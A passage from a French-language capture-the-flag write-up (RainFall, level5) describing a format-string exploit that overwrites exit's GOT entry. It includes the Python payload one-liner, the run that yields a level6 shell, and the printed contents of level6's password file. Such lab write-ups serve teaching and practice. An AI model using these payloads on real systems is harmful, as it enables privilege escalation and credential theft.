 ```shell
    08049828 R_386_JUMP_SLOT   _exit
    0804982c R_386_JUMP_SLOT   fgets
    08049830 R_386_JUMP_SLOT   system
    08049834 R_386_JUMP_SLOT   __gmon_start__
    08049838 R_386_JUMP_SLOT   exit # POUF 
    0804983c R_386_JUMP_SLOT   __libc_start_main

```

* On a donc tous les prérequis. En transformant en little indian l'addresse de o(\x38\x98\x04\x08), on va pouvoir construire la string suivante:

```shell
  level5@RainFall:/tmp$ python -c 'print "\x38\x98\x04\x08%1$" + str(int(0x080484a4) - 4) + "d%4$n"' > pattern5
```

* On utilise la representation en int de cette addresse

```shell
level5@RainFall:/tmp$ cat /tmp/pattern5 - | ~/level5 # ...2 HOURS later...
  [...]512
whoami
  level6
cat /home/user/level6/.pass
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
